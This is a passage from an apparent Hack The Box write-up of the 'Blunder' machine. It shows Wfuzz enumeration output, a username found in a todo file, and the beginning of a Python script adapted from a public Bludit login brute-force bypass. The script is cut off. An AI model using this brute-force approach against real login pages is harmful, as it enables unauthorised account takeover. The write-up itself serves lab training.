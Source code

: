Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 4655

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                      
===================================================================

000003516:   200        1 L      4 W      22 Ch       "robots"                                                                                                     
000004122:   200        4 L      23 W     118 Ch      "todo"                                                                                                       

Total time: 130.1939
Processed Requests: 4655
Filtered Requests: 4653                                                                                                                                                       
Requests/sec.: 35.75433  
{{< /highlight >}}  

Where:
- `-c` renders the output with colors
- `-w` specifies the wordlist
- `--hc` hide the responses with the specified code, `403` and `404` in this case
- `-u` is the url to fuzz
- `-t` specifies the number of concurrent connections

Let's visit `/todo.txt`:

![Bludit_ToDo](/images/htb/bludit_todo.png)

**Note**: **fergus** could be a valid username for the login page!

# Exploitation

At this point, doing some research on the service, I know that there is a method to bypass the brute force security service.
Reference -> https://rastating.github.io/bludit-brute-force-mitigation-bypass/

I edit the code a bit to fit my purpose:

{{< highlight python >}}
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
pass_file = "/home/user/Desktop/HackTheBox/Blunder/pass_file.txt"

with open(pass_file) as w:
    content = w.readlines()
    result = [x.strip() for x in content]
wordlist = result
